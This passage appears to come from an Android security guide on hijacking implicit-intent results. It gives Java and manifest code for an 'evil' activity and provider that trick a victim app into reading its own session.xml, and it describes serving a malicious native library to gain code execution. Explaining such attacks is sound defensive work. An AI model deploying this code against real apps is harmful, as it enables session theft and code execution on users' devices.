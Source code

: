 EvilContentActivity.java

```java
public class EvilContentActivity extends Activity{
  @Override
  protected void OnCreate(@Nullable Bundle savedInstanceState){
    super.OnCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("file:///data/data/<victim_app>/shared_preferences/session.xml")));
    finish();
  }
}
```

If the user selects the malicious app to handle his intent, the attacker can now steal the session.xml file from the app's internal storage. In the previous example, the victim must explicitly select the attacker's malicious app in a dialog. However, it could be that the developers suppress this selection dialog and automatically determine a recipient for the intent. This would enable the attack without additional user interaction.
The following code sample implements this automatic selection of the recipient. By specifying a priority in the malicious app's intent filter, the attacker can influence the selection sequence.

```java
Intent intent = new Intent("android.intent.action.GET_CONTENT");
for(ResolveInfo info : getPackageManager().queryIntentActivities(intent, 0)) {
    intent.setClassName(info.activityInfo.packageName, info.activityInfo.name);
    startActivityForResult(intent);
    return;
}
```

Furthermore, an improperly handled return value of an implicit intent can lead to arbitrary code execution if the victim app allows `content://` url's in addition to `file://` url's.
An attacker implements a [ContentProvider](https://developer.android.com/reference/android/content/ContentProvider) that contains `public Cursor query(...)` to set an arbitrary file (in this case *lib.so*, and if the victim loads this file from the content provider by executing `copy()` the attackers `ParcelFileDescriptor openFile(...)` method is being executed and returns a malicious *fakelib.so*.
<br>AndroidManifest.xml

```xml
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<application>
  <activity android:name=".EvilContentActivity">
      <intent-filter android:priority="999">
          <action android:name="android.intent.action.GET_CONTENT" />
          <data android:mimeType="*/*" />
      </intent-filter>
  </activity>
  <provider android:name=".EvilContentProvider" android:authorities="com.attacker.evil" android:enabled="true" android:exported="true"></provider>
</application>
```

EvilContentProvider.java
